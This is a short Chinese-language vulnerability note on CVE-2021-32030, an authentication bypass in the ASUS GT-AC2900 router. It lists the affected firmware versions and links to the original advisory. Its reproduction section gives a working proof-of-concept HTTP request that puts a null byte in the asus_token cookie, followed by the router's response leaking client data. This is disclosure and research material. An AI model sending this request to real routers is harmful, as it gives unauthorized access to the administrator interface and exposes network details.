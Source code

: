 # 

# 华硕 GT-AC2900 身份验证绕过 CVE-2021-32030

## 漏洞描述

ASUS GT-AC2900管理员应用程序在处理未经身份验证的用户的远程输入时，容易受到身份验证绕过漏洞的攻击，从而导致对管理员界面的未经授权的访问。

参考链接：

- https://github.com/atredispartners/advisories/blob/master/ATREDIS-2020-0010.md

## 漏洞影响

```
ASUS GT-AC2900韧体版本9.0.0.4.386.41994（测试版）
ASUS GT-AC2900韧体版本3.0.0.4.386.41793（最新生产）
```

## 漏洞复现

通过在auth_check添加空字符进行绕过身份验证。

poc：

```
GET /appGet.cgi?hook=get_cfg_clientlist() HTTP/1.1
Host: 192.168.1.107:8443
Content-Length: 0
User-Agent: asusrouter--
Connection: close
Referer: https://192.168.1.107:8443/
Cookie: asus_token=\0Invalid; clickedItem_tab=0

HTTP/1.0 200 OK
Server: httpd/2.0
Content-Type: application/json;charset=UTF-8
Connection: close

{
"get_cfg_clientlist":[{"alias":"24:4B:FE:64:37:10","model_name":"GT-AC2900","ui_model_name":"GT-AC2900","fwver":"3.0.0.4.386_41793-gdb31cdc","newfwver":"","ip":"192.168.50.1","mac":"24:4B:FE:64:37:10","online":"1","ap2g":"24:4B:FE:64:37:10","ap5g":"24:4B:FE:64:37:14","ap5g1":"","apdwb":"","wired_mac":[
...
...
}
```


